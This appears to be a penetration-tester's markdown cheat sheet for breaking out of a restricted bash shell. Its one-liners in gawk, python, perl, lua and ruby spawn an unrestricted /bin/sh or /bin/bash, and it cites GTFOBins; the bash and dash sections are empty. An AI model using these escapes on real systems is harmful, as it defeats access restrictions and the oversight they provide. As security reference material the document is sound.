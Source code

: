 # Code Execution

When you're in a restricted shell.

```
$ echo $0
rbash
```

## 01 - Shell Scripting

### 1.1 - `bash`

```

```

### 1.2 - `dash`

```

```

### 1.3 - `gawk`

```
$ gawk 'BEGIN {system("/bin/sh")}'

$ gawk 'BEGIN {system("/bin/bash")}'
```

## 02 - Interpreters


### 1.2 - `python`

```
$ python3 -c 'import os; os.system("/bin/sh")'

$ python3 -c 'import os; os.system("/bin/bash")'

$ python -c 'import os; os.system("/bin/sh")'

$ python -c 'import os; os.system("/bin/bash")'
```

### 1.3 - `perl`

```
perl -e 'exec "/bin/sh";'

perl -e 'exec "/bin/bash";'
```

### 1.4 - `lua`

```
os.execute('/bin/sh')
```

### 1.5 - `ruby`

Executing it as a one-liner.

```
$ ruby -e "exec '/bin/sh'"

$ ruby -e "exec '/bin/bash'"
```

Using interactive ruby.

```
$ irb
irb(main):001:0> exec "/bin/sh"

irb(main):001:0> exec "/bin/bash"
```

---
## References

- [GTFOBins: Ash](https://gtfobins.github.io/gtfobins/ash/)

- [GTFOBins: Bash](https://gtfobins.github.io/gtfobins/bash/)

- [GTFOBins: Csh](https://gtfobins.github.io/gtfobins/csh/)

- [GTFOBins: Dash](https://gtfobins.github.io/gtfobins/dash/)

- [GTFOBins: Awk](https://gtfobins.github.io/gtfobins/awk/)

- [GTFOBins: Gawk](https://gtfobins.github.io/gtfobins/gawk/)